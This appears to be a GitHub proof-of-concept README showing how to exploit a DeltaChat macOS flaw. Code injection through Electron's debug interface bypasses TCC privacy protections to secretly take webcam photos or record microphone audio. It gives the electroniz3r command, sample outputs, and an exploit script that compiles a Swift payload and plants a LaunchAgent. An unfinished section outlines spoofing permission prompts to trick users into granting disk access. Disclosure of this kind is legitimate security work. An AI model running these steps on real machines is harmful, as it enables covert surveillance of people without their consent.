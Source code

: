# Exploitation

Showing a few ways to exploit this vulnerability, also showing a "new" vulnerability/technique with TCC that _can_ be useful for tricking a user for more TCC rights, e.g. full disk access or any other TCC rights. 

>**Note:** When running this proof-of-concept, the Terminal app does not need a prompt for camera access. This is because the camera permission is granted to DeltaChat, and the injected code inherits those permissions, effectively bypassing macOS TCC restrictions.

### Automated 

Run the following from Terminal using [electroniz3r](https://github.com/r3ggi/electroniz3r)

```sh
electroniz3r inject /Applications/DeltaChat.app/ --predefined-script takeSelfie
```

Sample output:
```sh
/Applications/DeltaChat.app/ started the debug WebSocket server
The webSocketDebuggerUrl is: ws://127.0.0.1:13337/56264727-4473-4393-b712-7e24c65a1c71
Check /tmp/selfie.jpg
```

Confirm the result by running:
```sh
open /tmp/selfie.jpg
```

<img width="1502" height="470" alt="poc-delta" src="https://github.com/user-attachments/assets/6bcc6604-8707-4924-89c8-2d8985aab39e" />

A picture is taken using the system webcam, without Terminal having any camera access this demonstrates a successful TCC bypass.

### Bash Script 

Clone the repository and then execute the bash script, the bash script autoexploits the TCC Bypass, then you can choose between exploiting camera or microphone TCC bypass. 

Execute bash script:
```sh
bash full_exploit.sh
# or
chmod +x full_exploit.sh && ./full_exploit.sh
```

Example output camera: (auto opens the selfie)
```sh
kunpeeks@MacBook-Pro-van-Kun % bash exploit.sh 
[*] Choose the TCC resource to access:
    1. Camera (take selfie)
    2. Microphone (record 5 sec)
[?] Enter choice (1 or 2): 1
[*] Generating Swift payload...
[*] Mode: Camera (selfie)
[*] Compiling Swift payload to /Users/kunpeeks/Desktop/tcc_payload
[*] Writing LaunchAgent to /Users/kunpeeks/Library/LaunchAgents/com.deltachat.tcc.bypass.plist
[*] Triggering DeltaChat exploit via launchctl...
[*] Waiting for payload to complete...
[+] Selfie taken! Opening...
```

Example output microphone: (does not auto open the recording file, I'm too lazy too fix it)
```sh
kunpeeks@MacBook-Pro-van-Kun 2 % bash exploit.sh
[*] Choose the TCC resource to access:
    1. Camera (take selfie)
    2. Microphone (record 5 sec)
[?] Enter choice (1 or 2): 2
[*] Generating Swift payload...
[*] Mode: Microphone (5 sec recording)
[*] Compiling Swift payload to /Users/kunpeeks/Desktop/tcc_payload
[*] Writing LaunchAgent to /Users/kunpeeks/Library/LaunchAgents/com.deltachat.tcc.bypass.plist
[*] Triggering DeltaChat exploit via launchctl...
[*] Waiting for payload to complete...
[+] Audio recording complete! Playing...
Error: AudioFileOpen failed ('dta?')
```

The recorded 5s audio file is located in `recording.m4a`. 



### Prompt Spoofing

This payload triggers a macOS TCC prompt for disk access. But instead of showing the request as coming from the Terminal (which executed the code), the system displays:

TODO: xxx





